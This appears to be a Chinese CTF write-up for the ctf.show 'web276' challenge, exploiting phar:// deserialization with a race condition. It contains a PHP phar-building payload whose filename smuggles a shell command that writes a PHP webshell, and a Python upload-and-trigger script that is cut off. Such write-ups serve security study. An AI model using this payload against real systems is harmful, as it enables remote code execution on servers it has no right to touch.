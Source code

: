![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208160004964.png)

## web276

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208160007351.png)

细微差异

```php
public function __destruct(){
    if($this->evilfile && $this->admin){
        system('rm '.$this->filename);
    }
}
```

`$admin` 不可控, 并且有文件操作的相关函数, 猜测是 phar:// 反序列化, 再加上条件竞争

思路是先绕过 checkevil 方法上传文件, 然后利用 copy 和 unlink 的时间差, 再利用一个正常的请求通过 phar:// 协议访问之前上传的文件, 触发反序列化

payload

```php
<?php

class filter{
    public $filename = '123; echo \'<?php system($_GET[1]);?>\' > 1.php';
    public $evilfile = true;
    public $admin = true;
}

$o = new filter();

@unlink("phar.phar");
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($o);
$phar->addFromString("test.txt", "test"); 
$phar->stopBuffering();

?>
```

python 脚本

```python
import requests
import threading

url = 'http://179e7299-1f16-42cf-a60f-6a8f10dec64b.challenge.ctf.show/'

lock = False

def send_phar():
    with open('phar.phar', 'rb') as f:
        data = f.read()
    _ = requests.post(url + '?fn=phar.txt', data=data)

def unserialize_phar():
    _ = requests.post(url + '?fn=phar://phar.txt', data='123')

def check_shell():
    global lock
    res = requests.get(url + '1.php')
    if res.status_code != 404:
        print('ok')
```